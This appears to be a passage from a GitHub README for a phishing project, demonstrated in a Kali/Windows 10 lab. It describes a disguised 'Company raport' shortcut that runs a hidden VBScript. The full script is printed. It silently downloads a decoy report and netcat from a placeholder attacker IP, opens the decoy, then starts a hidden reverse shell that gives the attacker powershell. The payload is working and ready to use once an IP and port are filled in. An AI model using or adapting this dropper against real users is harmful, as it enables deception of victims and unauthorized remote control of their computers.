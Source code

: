 When the Company raport shortcut is clicked, connection is set to download fake raport.txt file and netcat from the attacker. When the downloads are done, raport.txt opens while reverse shell is being cooked in the background.

See it in action: https://www.youtube.com/watch?v=ll4ojo6q-rM

Demo was made using 2 virtual machines:

    Kali Linux
    Windows 10

Structure:
Company raport .lnk -> Linked to revsh.vbs inside hidden payload folder

![efROc8J](https://github.com/therealhalonen/PhishSticks/assets/112076418/54cea3ed-6872-4f69-a483-2e6586fe12f6)
![nor5dNd](https://github.com/therealhalonen/PhishSticks/assets/112076418/8ef95081-a269-4667-8b0f-cf9cfb8eb2a5) 

revsh.vbs:

```vbs
Set objShell = CreateObject("Wscript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")

' Download fake raport
downloadRaport = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('<ATTACKER IP>/raport.txt', '%TEMP%\raport.txt')"""
objShell.Run downloadRaport, 0, True
WScript.Sleep 1000  ' Wait for 1 second

' Open raport.txt
openRaport = "cmd /c start """" %TEMP%\raport.txt"
objShell.Run openRaport, 0, True

' Download netcat from attacker ip
downloadCmd = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('http://<ATTACKER IP>/nc64.exe', '%TEMP%\nc64.exe')"""
objShell.Run downloadCmd, 0, True
WScript.Sleep 2000 ' Wait for 2 seconds initially (adjust this if needed)

' Wait until the file has been downloaded
Do While Not objFSO.FileExists(objShell.ExpandEnvironmentStrings("%TEMP%\nc64.exe"))
    WScript.Sleep 1000  ' Wait for 1 second
Loop

' Start reverse shell
execCmd = "cmd /c powershell -WindowStyle Hidden -Command ""Start-Process \""%TEMP%\nc64.exe\"" -ArgumentList '<ATTACK IP>', '<ATTACKER PORT>', '-e', 'powershell' -WindowStyle Hidden"""
objShell.Run execCmd, 0, True

Set objFSO = Nothing
Set objShell = Nothing
```

Both Virtual Machines were assigned to the same internal network, and the IP-address of the attacker machine was placed as a static in the payload command. Attacker machine was set to host raport.txt & nc64.exe  and open up netcat listener:

![2023-11-23_10-54](https://github.com/therealhalonen/PhishSticks/assets/112076418/3e9ea4b2-4ff3-4798-90d6-3dc368e22d44)

